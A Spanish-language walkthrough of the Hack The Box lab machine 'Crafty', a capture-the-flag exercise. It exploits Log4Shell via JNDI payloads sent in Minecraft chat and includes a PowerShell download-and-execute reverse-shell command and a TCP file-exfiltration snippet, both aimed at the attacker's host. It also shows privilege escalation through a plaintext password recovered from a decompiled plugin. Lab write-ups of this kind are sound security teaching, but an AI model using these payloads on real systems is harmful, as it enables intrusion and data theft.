


En esta máquina encontraremos un servidor de Minecraft 1.16.5 vulnerable al conocido CVE-2021-44228, tras abusar de él para obtener la ejecución de comandos en la máquina.

Information Gathering

Escaneado de todos los puertos TCP:

```bash
> nmap -sS -Pn -n -p- --open -vvv --min-rate 200 10.10.11.249 
Nmap scan report for 10.10.11.249
Host is up, received user-set (0.37s latency).
Scanned at 2024-06-17 10:07:01 -04 for 660s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE   REASON
80/tcp    open  http      syn-ack ttl 127
25565/tcp open  minecraft syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 660.40 seconds
           Raw packets sent: 131533 (5.787MB) | Rcvd: 791 (130.048KB)
```

El sitio web nos redirige al dominio crafty.htbs que añadiremos a nuestro /etc/hosts:

```bash
... [snip]
10.10.11.249 crafty.htb
```

Al verlo, nos daremos cuenta de que es un portal a un servidor de Minecraft llamado «Crafty».


Por lo demás no parece que haya cosas más interesantes por aquí, porque los tres botones que se muestran no envían a nada interesante.
# Enumeration

## Port 25565 - Minecraft 1.16.5

Haciendo un escaneo de servicios al puerto 25565 podemos ver de que servidor se trata (Recordemos que no solo existe el servidor de Minecraft de Mojang, también existen Paper, BungeeCord, Spigot.. etc)

```bash
> nmap -sCV -Pn -n -p 25565 -oN service -vvv --min-rate 200 10.10.11.249
Nmap scan report for 10.10.11.249
Host is up, received user-set (0.23s latency).
Scanned at 2024-06-17 10:23:28 -04 for 12s

PORT      STATE SERVICE   REASON          VERSION
25565/tcp open  minecraft syn-ack ttl 127 Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 17 10:23:40 2024 -- 1 IP address (1 host up) scanned in 12.02 seconds
```

Se trata de un Minecraft Vanilla 1.16.5 por lo que parece. La versión 1.16.5 salió precisamente en septiembre de 2020, hace casi 4 años de la publicación de este post

Exactamente el 9 de diciembre de 2021, se reveló una vulnerabilidad que parecía afectar a cualquier versión de Minecraft entre los rangos de 1.6.5 y 1.18, al utilizar la librería Log4J para el logueo tanto del cliente como del servidor, hacía al juego vulnerable al CVE-2021-44228, en su momento varios aprovecharon esto para hackear servidores e incluso hackear a múltiples usuarios de diferentes servidores. Dado que este es el servidor Vanilla y 1.16.5 hay muchas posibilidades de que sea vulnerable a esta CVE.

La vulnerabilidad es que el logger Log4J por defecto puede procesar mensajes especiales encerrados en ${}, y uno de ellos da la posibilidad de utilizar el JNDI (Java Native Directory Interface) para cargar clases externas y ejecutarlas en el contexto de la aplicación Java, por lo que podemos utilizar RogueJNDI para dar al servidor lo que está buscando y ejecutar comandos como el usuario del sistema que ejecuta el servidor, pero primero tenemos que conectarnos al servidor de Minecraft.



Existen varios clientes CLI para esto, el que usaremos es el Minecraft Console Client que podemos descargar ya compilado en su sección de releases.

Usándolo, lo ajustamos para lo que queramos en su fichero de configuración generado o le damos a los ajustes que nos pide en pantalla y nos conectamos al servidor en cuestión:

```bash
Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 263, built on 2024-04-15 from commit 403284c
Resolving crafty.htb...
Login :
Password(invisible): 
You chose to run in offline mode.
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
> 
```

Ahora, para hacer que el JNDI ejecute una clase arbitraria abusando del bug de Log4J simplemente debemos hacer que el logger procese un mensaje con una cadena como ${jndi:ldap://HOST:PORT/}, pero antes debemos tener un servidor especializado corriendo para procesar estas peticiones JNDI, yo usaré RogueJNDI como dije antes.

```bash
❯ java -jar RJNDI.jar -c 'ping -n 1 10.10.14.92' -n 10.10.14.92
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.92:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.92:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.92:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.92:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.92:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.92:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.14.92:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.92:1389/o=reference to artsploit.controllers.RemoteReference
```

Nos da el puerto del servidor LDAP y algunos mapeos para ejecutar clases Java específicas, usaremos artsploit.controllers.RemoteReference, y cuando enviamos ${jndi:ldap://10.10.14.92:1389/o=reference} en el servidor Minecraft vemos en las consolas que:

```bash
... [snip]
Sending LDAP reference result for http://10.10.14.92:8000/xExportObject.class
new http request from /10.10.11.249:49698 asking for /xExportObject.class
Sending LDAP reference result for http://10.10.14.92:8000/xExportObject.class
new http request from /10.10.11.249:49698 asking for /xExportObject.class
Sending LDAP reference result for http://10.10.14.92:8000/xExportObject.class
new http request from /10.10.11.249:49698 asking for /xExportObject.class
```

```bash
> tshark -i tun0 icmp
    1 0.000000000 10.10.11.249 → 10.10.14.92  ICMP 60 Echo (ping) request  id=0x0001, seq=1/256, ttl=127
    2 0.000069813  10.10.14.92 → 10.10.11.249 ICMP 60 Echo (ping) reply    id=0x0001, seq=1/256, ttl=64 (request in 1)
    3 1.019781479 10.10.11.249 → 10.10.14.92  ICMP 60 Echo (ping) request  id=0x0001, seq=2/512, ttl=127
    4 1.019871252  10.10.14.92 → 10.10.11.249 ICMP 60 Echo (ping) reply    id=0x0001, seq=2/512, ttl=64 (request in 3)
    5 2.042625454 10.10.11.249 → 10.10.14.92  ICMP 60 Echo (ping) request  id=0x0001, seq=3/768, ttl=127
    6 2.042666787  10.10.14.92 → 10.10.11.249 ICMP 60 Echo (ping) reply    id=0x0001, seq=3/768, ttl=64 (request in 5)

Efectivamente, podemos ejecutar comandos. Ahora podemos enviarnos una consola

```bash
❯ java -jar RJNDI.jar -c "powershell IEX((New-Object Net.WebClient).DownloadString('http://10.10.14.92:8000/shell'))" -n 10.10.14.92

    The shell file contained a copy of the ConPtyShell of AntonioCoco

Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.11.249 - - [17/Jun/2024 10:58:49] "GET /uwu HTTP/1.1" 200 -
10.10.11.249 - - [17/Jun/2024 10:58:51] "GET /uwu HTTP/1.1" 200 -
10.10.11.249 - - [17/Jun/2024 10:58:52] "GET /uwu HTTP/1.1" 200 -
```

Con el terminal que recibimos de la máquina, ya podemos hacer cosas:

```powershell
PS C:\users\svc_minecraft\server> ls 


    Directory: C:\users\svc_minecraft\server


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/17/2024   3:01 AM                logs
d-----       10/27/2023   2:48 PM                plugins
d-----        6/17/2024   7:58 AM                world
-a----       11/14/2023  10:00 PM              2 banned-ips.json
-a----       11/14/2023  10:00 PM              2 banned-players.json
-a----       10/24/2023   1:48 PM            183 eula.txt
-a----       11/14/2023  11:22 PM              2 ops.json
-a----       10/24/2023   1:43 PM       37962360 server.jar
-a----       11/14/2023  10:00 PM           1130 server.properties
-a----        6/17/2024   7:56 AM            102 usercache.json
-a----       10/24/2023   1:51 PM              2 whitelist.json
```

Y en la carpeta Desktop de la carpeta personal encontraremos la primera bandera.

```powershell
PS C:\users\svc_minecraft\server> cd ..
PS C:\users\svc_minecraft> cd Desktop
PS C:\users\svc_minecraft\Desktop> dir


    Directory: C:\users\svc_minecraft\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----                                                                                               
-ar---        6/17/2024   3:02 AM             34 user.txt                                                                                           


PS C:\users\svc_minecraft\Desktop> type user.txt
2a6867d4f2483f2e715097acc3******
```

# Privilege escalation

En la carpeta plugins del servidor, hay un plugin que no parece ser de terceros como SpigotMC o Modrinth. Es algo personalizado…

```powershell
PS C:\users\svc_minecraft\server\plugins> ls


    Directory: C:\users\svc_minecraft\server\plugins


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/27/2023   2:48 PM           9996 playercounter-1.0-SNAPSHOT.jar
```

Podemos copiarlo a nuestro ordenador configurando un servidor SMB con la herramienta smbserver.py de impacket

```bash
❯ doas smbserver.py -smb2support shell .
doas (vzon@pwnedz0n) password: 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Pero hay un problema…

```powershell
PS C:\users\svc_minecraft\server\plugins> copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.92\uwu\playercounter.jar
copy : You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help  
protect your PC from unsafe or malicious devices on the network.
At line:1 char:1
+ copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.92\shell\playercounter.j ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-Item], IOException
    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.CopyItemCommand 
```

Así que tendremos que usar otra forma de copiar este jar a nuestro ordenador, una de ellas es simplemente programando un poco en PowerShell para crear un cliente TCP y enviar el fichero a nuestro netcat que almacenará lo que reciba en un fichero.

```powershell
$client = New-Object System.Net.Sockets.TcpClient
$client.Connect("10.10.14.92", 8443)
$stream = $client.GetStream()
$bytes = [System.IO.File]::ReadAllBytes("plugins\playercounter-1.0-SNAPSHOT.jar")
$stream.Write($bytes, 0, $bytes.Length)
$stream.Close()
```

```bash
❯ nc -lvnp 8443 > playercounter.jar
Listening on 0.0.0.0 8443
Connection received on 10.10.11.249 49733
❯ ls -la
total 63212
drwxr-xr-x  2 vzon vzon     4096 Jun 17 11:17 .
drwxr-xr-x 34 vzon vzon     4096 Jun 17 10:03 ..
-rw-r--r--  1 vzon vzon    11357 Apr 20 23:07 LICENSE
-rw-r--r--  1 vzon vzon    38563 Jun 17 10:43 MinecraftClient.backup.ini
-rw-r--r--  1 vzon vzon    38553 Jun 17 10:43 MinecraftClient.ini
-rw-r--r--  1 vzon vzon    13280 Apr 20 23:07 README.md
-rwxr-xr-x  1 vzon vzon 64587949 Jun 17 10:35 mcli
-rw-r--r--  1 vzon vzon     9996 Jun 17 11:10 playercounter.jar
-rw-r--r--  1 root root      649 Jun 17 10:23 service
❯ file playercounter.jar 
playercounter.jar: Java archive data (JAR)
```

Ahora usemos un programa para descompilar el bytecode de este supuesto plugin, usaré JADX para esto.



Seleccionando el archivo en cuestión e inspeccionando sus clases, encontramos algo curioso en htb.crafty.playercounter.Playercounter.

```java
package htb.crafty.playercounter;

import java.io.IOException;
import java.io.PrintWriter;
import net.kronos.rkon.core.Rcon;
import net.kronos.rkon.core.ex.AuthenticationException;
import org.bukkit.plugin.java.JavaPlugin;

/* loaded from: playercounter.jar:htb/crafty/playercounter/Playercounter.class */
public final class Playercounter extends JavaPlugin {
    public void onEnable() {
        try {
            Rcon rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());
            try {
                String result = rcon.command("players online count");
                PrintWriter writer = new PrintWriter("C:\\inetpub\\wwwroot\\playercount.txt", "UTF-8");
                writer.println(result);
            } catch (IOException e3) {
                throw new RuntimeException(e3);
            }
        } catch (IOException e) {
            throw new RuntimeException(e);
        } catch (AuthenticationException e2) {
            throw new RuntimeException(e2);
        }
    }

    public void onDisable() {
    }
}
```

¡Una contraseña de texto plano para el RCON! Si lo intentamos en el sistema de vuelta no parece funcionar para el usuario actual, pero para el Administrador

```powershell
PS C:\users\svc_minecraft\server\plugins> runas /user:Administrator whoami
Enter the password for Administrator: 
Attempting to start whoami as user "CRAFTY\Administrator"
```

A partir de aquí podemos usar RunasCs o las runas por defecto de Windows para ejecutar comandos, yo me decantaré por la segunda. Después de enviarnos una consola obviamente ya seremos administradores.

```powershell
PS C:\Windows\system32> whoami
crafty\administrator
```

Así que ahora podemos tomar la última bandera.

```powershell
PS C:\Windows\system32> cd ~ 
PS C:\Users\Administrator> cd Desktop 
PS C:\Users\Administrator\Desktop> dir 


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/17/2024   3:02 AM             34 root.txt
```

```powershell
PS C:\Users\Administrator\Desktop> type root.txt 
7ca657db95d7e1ef6da65ac41b******
```
